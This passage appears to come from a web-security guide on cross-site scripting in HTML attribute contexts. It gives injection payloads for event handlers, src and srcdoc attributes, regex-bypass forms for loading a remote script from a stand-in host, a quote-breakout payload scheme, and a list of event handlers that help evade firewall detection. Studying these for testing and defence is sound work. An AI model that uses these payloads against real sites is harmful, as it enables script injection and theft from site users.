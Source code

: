 #### Inside an Event Handler

If the input is being reflected within the value associated with an event handler e.g.`<tag event_handler="function($input)";` triggering the event handler will execute the JavaScript present in the value. 

##### Inside 'src' Attribute

If the input is being reflected as the value of `src` attribute of a script or iframe tag e.g. `<script src="$input">`, a malicious script (in case of script tag) or webpage (in case of iframe tag) can be loaded directly as follows
`<script src="http://example.com/malicious.js">`

###### Bypassing URL Matching Regular Expressions

- `//example.com/xss.js` bypasses `http(?s)://`
- `////////example.com/xss.js` bypasses `(?:http(?s):?)?//`
- `/\///\\/example.com/xss.js` bypasses `(?:http(?s):?)?//+`


##### Inside 'srcdoc' Attribute

If the input is being reflected as the value of `srcdoc` attribute of an iframe tag e.g. `<iframe srcdoc="$input">`, an escaped (with HTML entities) HTML document can be supplied as the payload as follows

`<iframe srcdoc="&lt;svg/onload=alert()&gt;">`

##### Generic Attributes

All the above cases do not require any bypassing techniques, except the last one which can be                                 bypassed using the techniques used in the HTML context section.
The discussed cases are uncommon and the most common type of attribute context reflection is as follows:

`<input type="text" value=""/onfocus="alert()$input">`

It can be further divided into two categories based on the interactivity of the concerned tag.

###### Interactable
When the input is getting reflected within a tag which can be interacted with e.g. clicking, hovering, focusing etc., only a quote is needed to break out of the context. The payload scheme in such case is:

`{quote}{filler}{event_handler}{?filler}={?filler}{javascript}`

Checking if the quote is being blocked by the WAF (highly unlikely) can be done with the probe below:

`x"y`

The event handler plays an important role here as it is the only component which may be detected by the WAF. Every tag supports some event handlers and it's up to the user to look for such cases but there are some event handlers which can be bound to any tag which are listed below:

```
onclick
onauxclick
ondblclick
ondrag
ondragend
ondragenter
ondragexit
ondragleave
ondragover
ondragstart
onmousedown
onmouseenter
onmouseleave
onmousemove
onmouseout
```